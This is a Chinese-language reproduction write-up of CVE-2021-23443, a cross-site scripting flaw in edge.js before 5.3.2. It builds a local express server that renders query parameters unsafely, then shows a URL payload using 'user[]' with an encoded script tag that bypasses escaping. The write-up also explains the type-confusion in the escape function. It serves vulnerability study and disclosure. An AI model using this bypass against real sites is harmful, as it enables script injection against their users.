 ```yaml
---
title: CVE-2021-23443
---
```


# CVE-2021-23443

<script setup>
import VueMetadata from "@/components/metadata/Metadata.vue"
</script>

<vue-metadata author="swwind" time="2023-6-12">
</vue-metadata>

edge.js 是 Node.js 模板引擎。

edge.js 5.3.2 之前存在安全漏洞，当要呈现的输入是数组（而不是字符串或 SafeValue）时，即使使用了 `{{ }}`，类型混淆漏洞也可用于绕过输入清理。

## 漏洞详情信息表

|  漏洞名称  |  edge.js 跨站脚本漏洞  |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202109-1534    |
|  CVE 编号  | [CVE-2021-23443][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          低危          |
|  漏洞类型  |        跨站脚本        |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- edge.js v5.3.1

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2021-23443` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add edge.js@5.3.1` 安装带有缺陷的 edge.js 版本。
4. 使用 `yarn add express` 安装一个简易的 Web 后端框架。

## 漏洞测试或验证详细步骤

### 编写代码

我们假设有一个服务器，直接使用 edge.js 来作为网页渲染引擎。

新建文件 `index.js`，写入以下代码：

```js
const { join } = require("path");
const edge = require("edge.js").default;

edge.mount(join(__dirname, "views"));

const express = require("express");
const app = express();

app.use("/", (req, res) => {
  const param = req.query;
  const path = req.path.slice(1);
  res.send(edge.renderSync(path, param));
});

app.listen(3000, () => {
  console.log("Listening on http://localhost:3000/");
});
```

上面这段代码会监听 `3000` 端口，并且对外提供 Web 服务。所有请求的参数都会直接传递给 edge.js 的 `renderSync` 函数。

创建文件 `views/welcome.edge`，写入以下内容：

```html
<p>Welcome {{ user }}!</p>
```

之后我们使用 `node index.js` 开启服务器，并且使用浏览器访问 `http://localhost:3000/welcome?user=swwind` 页面，可以看到网页的内容如下。

![](/assets/exploits/figure1/fig1.png)

### 验证漏洞

一般来说，edge.js 会自动将我们的输入信息全部过滤，防止出现 XSS 攻击。

例如我们访问下面的连接，就会看到尝试注入的 `<script>` 标签都经过了过滤。

```
http://localhost:3000/welcome?user=%3Cscript%3Ealert('xss%20by%20swwind')%3C%2Fscript%3E
```

![](/assets/exploits/figure1/fig2.png)

但是如果我们尝试将输入的格式改成数组的形式，那么就可以绕过 edge.js 的过滤算法。

例如我们访问下面的链接，注意 `user` 被修改成了 `user[]`。

```
http://localhost:3000/welcome?user[]=%3Cscript%3Ealert('xss%20by%20swwind')%3C%2Fscript%3E
```

![](/assets/exploits/figure1/fig3.png)

可以看到成功绕过了 HTML 过滤，实现了 XSS 攻击。

### 漏洞分析

这个漏洞出现的原因在于 edge.js 内部的 `escape` 函数的缺陷。

![](/assets/exploits/figure1/fig4.png)

这个函数仅仅只对 `string` 类型的输入做了 `escape`，但是却没有判断其他不是 `string` 也不是 `SafeValue` 类型的数据。因此在这里我们只需要将输入用数组的形式给出，那么该函数将不会进行任何过滤，直接返回了原本的数组。之后的过程中程序会自动调用 `Array.prototype.toString` 函数将数组转换成字符串类型，该函数默认是先将所有元素转换成字符串，接着使用 `,` 进行拼接。当我们的输入是 `["<script>xxx</script>"]` 的时候，转换成字符串的结果自然就会是 `"<script>xxx</script>"`，从而可以轻松实现 XSS 攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2021-23443
